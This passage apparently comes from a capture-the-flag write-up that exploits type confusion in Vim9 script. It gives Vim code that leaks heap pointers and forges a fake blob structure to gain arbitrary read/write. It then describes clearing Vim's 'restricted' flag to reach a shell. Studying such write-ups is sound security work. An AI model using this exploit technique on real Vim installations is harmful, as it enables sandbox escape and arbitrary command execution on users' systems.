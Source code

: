 So the leak function will be:
```vim
def LeakBlobDataPtr(obj: blob): number
    var high: number = LeakObjPtr("") >> 32

    var hook: number = obj
    hook += 0x10
    var low: number = and(len(hook), 0xffffffff)
    hook -= 0x10

    return or(high << 32, low)
enddef
```

Now that we have all the pointers we need, we have to craft our own blob and point another blob
to it, in order to control the data pointer:
```vim
var target: blob = 0z4141414141414141
var fake_blob: blob
# Big endian
fake_blob += 0z4141414142424242  # len, maxlen
fake_blob += 0z0100000064000000  # itemsize, growsize
fake_blob += 0z4343434343434343  # data
fake_blob += 0zff00000000000000  # refcount, lock

var target_ptr: number = LeakObjPtr(target)
var fake_blob_data_ptr: number = LeakBlobDataPtr(fake_blob)
var hook: number = target
hook += fake_blob_data_ptr - target_ptr
# You cannot do `hook = fake_blob_data_ptr`, because the object will be overwritten and will
# return to be a number
# I could have multiplied by zero and avoided the first leak, but that's fine.
```

Finally, we have arbitrary read/write, so we scan the heap to find a binary pointer left
by some vim internals and then write zero on the `restricted` variable, this way we will
be allowed to run a shell.

[Full exploit](solution/exploit.vim)
